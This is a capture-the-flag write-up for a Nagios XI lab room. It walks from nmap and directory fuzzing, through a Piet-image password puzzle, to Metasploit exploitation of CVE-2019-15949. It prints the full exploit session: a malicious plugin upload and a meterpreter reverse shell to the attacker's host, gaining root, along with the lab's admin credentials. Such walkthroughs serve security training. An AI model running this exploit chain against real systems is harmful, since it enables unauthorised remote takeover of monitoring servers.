 # Nax
Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.

---
### Resolution

Nmap version and default scripts scan:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Both web apps (on port 80 and 443) have the same content. Visiting the website we find a suspicious welcoming expression:
```
<...snip...>
                  Welcome to elements.
	Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
```
The symbols refer to periodic elements, and based on the atomic number we end up with the following list `[47, 80, 73, 51, 84, 46, 80, 78, 103]`. If we interpret the numbers as ASCII characters we get `/PI3T.PNg`. Is this the hidden file? yep, it is.

We download that image to inspect it more. We can use `exiftool` to read the image's metadata:
```
$ exiftool PI3T.PNg 

<...snip...>
Palette                         : (Binary data 768 bytes, use -b option to extract)
Transparency                    : (Binary data 256 bytes, use -b option to extract)
Artist                          : Piet Mondrian
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
```

There we have our author's name as the artist.

For the next step, a username is required. A username of what service? we can fuzz the web application for more directories. Spoil alert: the room is about Nagios so we expect it to be in the results.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<target_ip>/FUZZ"               

<...snip...>
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 41ms]
nagios                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 44ms]
```

Alternatively, the source code of the home page indicates a path `/nagiosxi/`.
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/57bcd0ba-e59a-403b-b095-71d762a053a8)

Navigating to `http://<target_ip>/nagiosxi/`, we find a login page for the Nagios XI dashboard.\
The intuition based on the previous questions is to derive a username from the artist name "Pieter Cornelis Mondriaan". However, this was a trap and has nothing to do with the next question.\
If we take a look at what default usernames Nagios uses for its products, we find a list of potential answers, including the one we're looking for; the default Nagios XI admin username `nagiosadmin`.

Back to our picture. I found, after a considerable amount of time, that piet is a programming language. From [here](https://esolangs.org/wiki/Piet), we read:
> Piet is a stack-based esoteric programming language in which programs look like abstract paintings. It uses 20 colors, of which 18 are related cyclically through a lightness cycle and a hue cycle. A single stack is used for data storage, together with some unusual operations.

We can execute the picture `PI3T.PNg` using an online tool like [npiet online](https://www.bertnase.de/npiet/npiet-execute.php), and then find the password: `n3p3UQ&9BjLp4$7uhWdY`.

Now let's launch Metasploit and search for a useful exploit.
```
msf6 > search nagios xi type:exploit

Matching Modules
================

   #   Name                                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                                 ---------------  ----       -----  -----------
   0   exploit/linux/http/nagios_xi_snmptrap_authenticated_rce              2020-10-20       excellent  Yes    Nagios XI 5.5.0-5.7.3 - Snmptrap Authenticated Remote Code Exection
   1   exploit/linux/http/nagios_xi_configwizards_authenticated_rce         2021-02-13       excellent  Yes    Nagios XI 5.5.6 to 5.7.5 - ConfigWizards Authenticated Remote Code Exection
   2   exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   3   exploit/linux/http/nagios_xi_autodiscovery_webshell                  2021-07-15       excellent  Yes    Nagios XI Autodiscovery Webshell Upload
   4   exploit/linux/http/nagios_xi_chained_rce                             2016-03-06       excellent  Yes    Nagios XI Chained Remote Code Execution
   5   exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo         2018-04-17       manual     Yes    Nagios XI Chained Remote Code Execution
   6   exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   7   exploit/unix/webapp/nagios_graph_explorer                            2012-11-30       excellent  Yes    Nagios XI Network Monitor Graph Explorer Component Command Injection
   8   exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   9   exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce      2020-12-19       excellent  Yes    Nagios XI Prior to 5.8.0 - Plugins Filename Authenticated Remote Code Exection
   10  exploit/unix/webapp/nagios3_history_cgi                              2012-12-09       great      Yes    Nagios3 history.cgi Host Command Execution

```

We can check out the description of the different exploits. The closest match to our situation is 8. The exploited vulnerability corresponds to `CVE-2019-15949`.\
The full path to the exploit: `exploits/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`.

Exploitation:
```
msf6 > use exploits/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts <target_ip>
rhosts => <target_ip>
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost <your_ip>
lhost => <your_ip>
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lport 53
lport => 53
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on <your_ip> 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.5.6.
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045380 bytes) to <target_ip>
[*] Meterpreter session 1 opened (<your_ip>:53 -> <target_ip>:57310) at 2024-03-06 16:35:28 +0000
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > 
```

Got a session! Note that the session's user is root.\
The user flag is located at `/home/galand/user.txt` and the root flag is at `/root/root.txt`.



